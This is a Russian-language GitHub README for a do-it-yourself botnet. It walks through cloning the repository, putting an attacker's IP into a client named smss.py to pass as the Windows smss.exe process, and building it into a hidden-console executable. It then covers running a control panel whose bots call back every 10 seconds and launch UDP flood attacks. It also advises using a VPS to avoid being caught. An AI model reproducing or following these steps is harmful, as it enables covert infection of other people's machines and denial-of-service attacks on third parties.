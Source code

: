 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Лучше всего проверить работоспособность на себе ,а потом заливать куда-то<br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/fuck_you_ru
```
<br>
 
```shell
cd fuck_you_ru
```
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать (Свой/VPS) ip <br>
```
ifconfig
```
Редактируем файл smss.py вставляем свой ip чтобы всё "боты" могли подключиться к вашей панели<br>

```python
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
```
Почему smss? -Підсистема диспетчера сеансів, або smss.exe, є компонентом сімейства операційних систем Microsoft<br>
Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
 
```shell
pip install pyinstaller
```

После полной установки pyinstaller в нашем директории fuck_you_ru <br>
Приступаем к билду exe <br>
 
```shell
pyinstaller --onefile --noconsole smss.py
```
<br>
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Инфо (Ваши боты в тайне будут каждые 10 секунду проверять подключение к панели)
```
Error connecting ('ip', 9999)| Sleep 10 seconds
```
Запус панели ботнета<br>
```shell
python Server.py
```
Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
 
```shell
attack udp <ip> <port> <time in second> <thread>
```
